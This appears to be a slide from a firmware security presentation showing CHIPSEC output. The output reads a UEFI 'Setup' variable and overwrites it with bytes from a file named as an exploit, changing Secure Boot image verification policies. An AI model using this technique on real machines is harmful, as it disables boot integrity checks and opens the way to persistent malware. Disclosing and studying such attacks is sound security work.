

# Patching Image Verification Policies…
[CHIPSEC] Reading EFI variable Name='Setup' GUID={EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9} from 'Setup_orig.bin' via Variable API..
EFI variable:
Name      : Setup
GUID      : EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9
Data      :
..
01 01 01 00 00 00 00 01 01 01 00 00 00 00 00 00 |
00 00 00 00 00 00 01 01 00 00 00 04 04          |
[CHIPSEC] (uefi) time elapsed 0.000

[CHIPSEC] Writing EFI variable Name='Setup' GUID={EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9} from 'Setup_policy_exploit.bin' via Variable API..
Writing EFI variable:
Name      : Setup
GUID      : EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9
Data      :
..
01 01 01 00 00 00 00 01 01 01 00 00 00 00 00 00 |
00 00 00 00 00 00 01 01 00 00 04 00 00          |
[CHIPSEC] (uefi) time elapsed 0.203
OptionRomPolicy
FixedMediaPolicy
RemovableMediaPolicy